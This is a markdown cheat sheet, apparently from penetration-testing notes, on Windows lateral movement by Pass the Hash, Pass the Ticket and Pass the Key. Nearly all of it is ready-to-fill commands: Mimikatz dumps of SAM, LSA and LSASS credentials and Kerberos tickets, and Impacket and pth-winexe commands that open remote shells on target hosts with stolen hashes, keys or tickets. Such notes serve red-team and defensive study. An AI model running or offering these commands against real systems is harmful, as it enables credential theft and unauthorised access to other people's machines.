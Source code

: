 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Run on Windows

```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```

### Run on Linux

```
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
smbexec.py <user>@<ip> -hashes <NTLM or :NT>
psexec.py <user>@<ip> -hashes <NTLM or :NT>
wmiexec.py <user>@<ip> -hashes <NTLM or :NT>
```

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
```

### Run on Windows

```
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

### Run on Linux

```
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

## Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES key or password. The obtained TGT token can then be used to access other machines.

### Run on Windows

```
sekurlsa::ekeys

sekurlsa::pth /user:<user> /domain:<domain> /rc4:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"
```

### Run on linux

```
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```

